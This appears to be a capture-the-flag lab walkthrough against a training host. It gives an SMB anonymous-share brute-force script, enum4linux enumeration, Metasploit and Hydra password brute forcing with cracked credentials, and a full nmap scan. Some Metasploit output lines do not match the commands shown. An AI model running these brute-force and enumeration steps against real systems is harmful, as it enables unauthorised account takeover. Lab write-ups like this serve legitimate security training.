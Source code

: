 ### We need to access the Samba Share that allows Anonymous Access
To find the share that allows `Anonymous` login, we need to write a script. Other pre-made tools did not correctly find the share. We will use the `shares.txt` file to brute force.

#### Brute-Force script to find the Share that allows Anonymous login
```bash
#!/bin/bash

TARGET_IP="target.ine.local"  # replace with your target IP

while read -r share; do
    # Try to connect but hide all output
    smbclient "\\\\$TARGET_IP\\$share" -N -c "quit" &>/dev/null
    if [ $? -eq 0 ]; then
        echo "Anonymous access allowed on: $share"
    fi
done < ~/Desktop/wordlists/shares.txt
```

#### Once the share is found, Access the share
```bash
smbclient //target.ine.local/pubfiles -N
```

#### Read the file
```bash
ls
get flag1.txt

cat flag1.txt
```

---
### Samba users have a bad password. Their private Share has the same name as their Username
#### List all the users using `enum4linux`
```bash
enum4linux -a target.ine.local > smb-enum
```

**We found four users:**
- josh, bob, nancy, alice

#### Create a user list for brute force
```bash
vim userlist.txt
```

### Hydra is not ideal for SMB brute-force. So, we'll try Metasploit
**Brute Force**
```bash
msfconsole -q

msf auxiliary(smb_login) > set RHOSTS target.ine.local
RHOSTS => RHOSTS target.ine.local
msf auxiliary(smb_login) > set User_File userlist.txt
SMBUser => userlist.txt
msf auxiliary(smb_login) > set Pass_File Desktop/wordlists/unix_passwords.txt
SMBPass => Desktop/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > set verbose false
THREADS => false
msf auxiliary(smb_login) > run
```

**Output**
```bash
[+] 192.236.101.3:445     - 192.236.101.3:445 - Success: '.\josh:purple'
[+] 192.236.101.3:445     - 192.236.101.3:445 - Success: '.\alice:admin'
[*] target.ine.local:445  - Scanned 1 of 1 hosts (100% complete)
[*] target.ine.local:445  - Bruteforce completed, 2 credentials were successful.
[*] target.ine.local:445  - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

#### Access the Share
```bash
smbclient //target.ine.local/josh/ -U josh
```

#### Read the flag
```bash
ls
get flag2.txt

cat flag2.txt
```

---
### Hint given in previous flag: I heard there is an FTP service running
#### Nmap
```bash
nmap -p- -A target.ine.local                                                                                                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-14 03:30 IST
Nmap scan report for target.ine.local (192.236.101.3)
Host is up (0.000050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bb:ca:49:7e:f5:5c:6e:bf:8a:55:a1:69:d9:c9:18:01 (RSA)
|   256 da:06:c1:ab:e7:6f:14:b9:50:d5:43:a7:47:ab:80:ce (ECDSA)
|_  256 a1:5c:ab:22:6b:c2:f1:5c:5a:7a:5a:d8:e7:81:e2:33 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5554/tcp open  ftp         vsftpd 2.0.8 or later
MAC Address: 02:42:C0:EC:65:03 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: blah; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-07-13T22:00:34
|_  start_date: N/A
|_nbstat: NetBIOS name: TARGET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.05 ms target.ine.local (192.236.101.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.94 seconds
```

#### Login via FTP
```bash
ftp target.ine.local 5554                                                                                                                             
Connected to target.ine.local.
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
```

There's a hint during the FTP login. It provides 3 usernames.

#### Create a new userlist to brute-force
```bash
vim userlist.txt

ashley
alice
amanda
```

#### Brute-Force using Hydra
```bash
hydra -L userlist.txt -P Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[5554][ftp] host: target.ine.local   login: alice   password: pretty
```

**We have managed to find the password. Now, login via ftp.**
#### Read the file
```bash
ls
get flag3.txt

cat flag3.txt
```

---
### This is a warning meant to deter unauthorized users from logging in
Check the nmap result, there is `ssh` service running. Try to connect to it.

```bash
ssh target.ine.local
```

This gives us our last flag.
